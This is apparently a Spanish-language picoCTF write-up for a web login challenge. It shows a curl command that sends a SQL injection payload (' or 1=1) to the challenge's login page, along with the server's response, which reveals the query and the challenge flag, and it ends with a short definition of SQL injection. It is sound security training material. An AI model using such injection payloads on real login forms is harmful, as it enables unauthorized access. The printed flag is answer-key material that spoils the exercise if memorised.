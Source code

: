 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Solución
En consola:
```bash
amer_br_-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=' or 1=1;'=admin&password=admin&debug=1"
<pre>username: ' or 1=1;'=admin
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;'=admin' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}
```

En la interfaz:
![[Pasted image 20240925194851.png]]
![[Pasted image 20240925194932.png]]
Ponemos como contraseña **' or 1 = 1;** 
Lo que hará va a ser editar la sentencia SQL para que nos dé acceso.
![[Pasted image 20240925195201.png]]


![[Pasted image 20240925195124.png]]
## Notas adicionales
**Inyección SQL** - La inyección SQL es una técnica de inyección de código que podría destruir su base de datos. La inyección de SQL es una de las técnicas de hackeo web más comunes. La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de la página web.
## Referencias
[Inyección SQL](https://www.w3schools.com/sql/sql_injection.asp)